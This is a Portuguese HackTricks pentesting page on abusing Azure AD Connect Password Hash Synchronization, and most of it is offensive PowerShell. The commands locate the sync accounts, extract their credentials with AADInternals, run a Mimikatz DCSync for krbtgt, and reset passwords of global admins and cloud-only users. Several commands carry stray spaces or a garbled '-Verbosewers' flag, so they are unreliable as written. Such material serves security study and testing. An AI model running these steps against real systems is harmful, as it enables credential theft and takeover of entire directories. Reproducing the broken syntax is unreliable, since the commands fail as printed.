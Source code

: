 # PHS - Sincronização de Hash de Senha

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## Informações Básicas

A **sincronização de hash de senha** é um dos métodos de login usados para realizar a identidade híbrida. O Azure AD Connect sincroniza um hash, do hash, da senha do usuário de uma instância do Active Directory local para uma instância do Azure AD baseada em nuvem.

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

É o **método mais comum** usado pelas empresas para sincronizar um AD local com o Azure AD.

Todos os **usuários** e um **hash dos hashes de senha** são sincronizados do local para o Azure AD. No entanto, **senhas em texto claro** ou os **hashes originais** não são enviados para o Azure AD.\
Além disso, os grupos de segurança **integrados** (como administradores de domínio...) **não são sincronizados** com o Azure AD.

A **sincronização de hashes** ocorre a cada **2 minutos**. No entanto, por padrão, **a expiração da senha** e a **expiração da conta** não são sincronizadas no Azure AD. Portanto, um usuário cuja **senha local expirou** (não alterada) pode continuar a **acessar recursos do Azure** usando a senha antiga.

Quando um usuário local deseja acessar um recurso do Azure, a **autenticação ocorre no Azure AD**.

**PHS** é necessário para recursos como **Proteção de Identidade** e Serviços de Domínio AAD.

## Pivoting

Quando o PHS é configurado, algumas **contas privilegiadas** são automaticamente **criadas**:

* A conta **`MSOL_<installationID>`** é criada automaticamente no AD local. Essa conta recebe uma função de **Contas de Sincronização de Diretório** (consulte a [documentação](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), o que significa que ela tem **permissões de replicação (DCSync) no AD local**.
* Uma conta **`Sync_<nome do servidor ADConnect local>_installationID`** é criada no Azure AD. Essa conta pode **redefinir a senha de QUALQUER usuário** (sincronizado ou somente na nuvem) no Azure AD.

As senhas das duas contas privilegiadas anteriores são **armazenadas em um servidor SQL** no servidor onde o **Azure AD Connect está instalado**. Os administradores podem extrair as senhas desses usuários privilegiados em texto claro.

Se o **servidor onde o Azure AD Connect está instalado** estiver associado ao domínio (recomendado na documentação), é possível encontrá-lo com:

```powershell
# Módulo ActiveDirectory
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

# Módulo Azure AD
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```

### AzureAD -> On-prem

```powershell
# Uma vez que o servidor Azure AD Connect é comprometido, você pode extrair credenciais com o módulo AADInternals
Get-AADIntSyncCredentials

# Usando as credenciais da conta MSOL_*, você pode executar o DCSync contra o AD local
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```

### On-prem -> AzureAD

Comprometendo a conta `Sync_*`, é possível **redefinir a senha** de qualquer usuário (incluindo Administradores Globais)

```powershell
# Este comando, executado anteriormente, também nos dará as credenciais dessa conta
Get-AADIntSyncCredentials

# Obter token de acesso para a conta Sync_*
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Obter administradores globais
Get-AADIntGlobalAdmins

# Obter o ImmutableId de um usuário local no Azure AD (este é o Identificador Único derivado do GUID local)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Redefinir a senha do usuário
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Agora é possível acessar o Azure AD com a nova senha e o local com a antiga (as alterações de senha não são sincronizadas)
```

Também é possível **modificar as senhas de usuários somente na nuvem** (mesmo que isso seja inesperado)

```powershell
# Para redefinir a senha do usuário somente na nuvem, precisamos do CloudAnchor deles, que pode ser calculado a partir do seu objectID na nuvem
# O CloudAnchor está no formato USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Redefinir a senha
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```

### Seamless SSO

É possível usar o Seamless SSO com o PTA, que é vulnerável a outros abusos. Verifique em:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Referências

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlo